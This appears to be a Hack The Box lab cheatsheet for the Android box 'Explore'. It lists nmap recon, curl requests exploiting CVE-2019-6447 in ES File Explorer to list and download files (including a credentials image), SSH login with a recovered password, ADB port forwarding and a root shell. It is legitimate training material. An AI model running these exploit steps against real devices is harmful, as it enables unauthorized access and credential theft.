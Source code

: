 # HTB: Explore — Command Cheatsheet

## 📌 Box Info
- **Name:** Explore
- **IP:** 10.10.10.247
- **OS:** Android
- **Difficulty:** Easy

---

## 🔍 Recon
```bash
nmap -p- --min-rate 10000 -oA scans/nmap-alltcp 10.10.10.247
nmap -p 2222,38925,42135,59777 -sCV -oA scans/nmap-tcpscripts 10.10.10.247
```

---

## 🛡️ CVE-2019-6447 — ES File Explorer
```bash
# Test access
curl 10.10.10.247:59777

# Enumerate files
curl 10.10.10.247:59777 -d '{"command": "listFiles"}'

# List images (look for creds.jpg)
curl 10.10.10.247:59777 -d '{"command": "listPics"}'

# Download image with password
python poc.py --get-file /storage/emulated/0/DCIM/creds.jpg --host 10.10.10.247
```

---

## 🗑️ Shell as kristi
```bash
sshpass -p 'Kr1sT!5h@Rp3xPl0r3!' ssh -p 2222 kristi@10.10.10.247

# Look for user.txt
cd /storage/emulated/0
cat user.txt
```

---

## 🤎 Enumeration as kristi
```bash
netstat -tnlp  # confirm port 5555 is open
```

---

## ⚖️ ADB Setup (Port Forwarding)
```bash
# Reconnect SSH with port forward
ssh -L 5555:localhost:5555 -p 2222 kristi@10.10.10.247

# On local machine
adb connect localhost:5555
adb devices
adb shell
```

---

## 🤐 Root Access via ADB
```bash
adb shell
su

# Locate and read flag
find / -name root.txt 2>/dev/null
cat /data/root.txt
```

---

## 📑 Resources
- CVE-2019-6447: ES File Explorer RCE
- ADB: Android Debug Bridge over SSH Tunnel
- ES File Explorer Exploit Script: https://github.com/fs0c131y/ESFileExplorerOpenPortVuln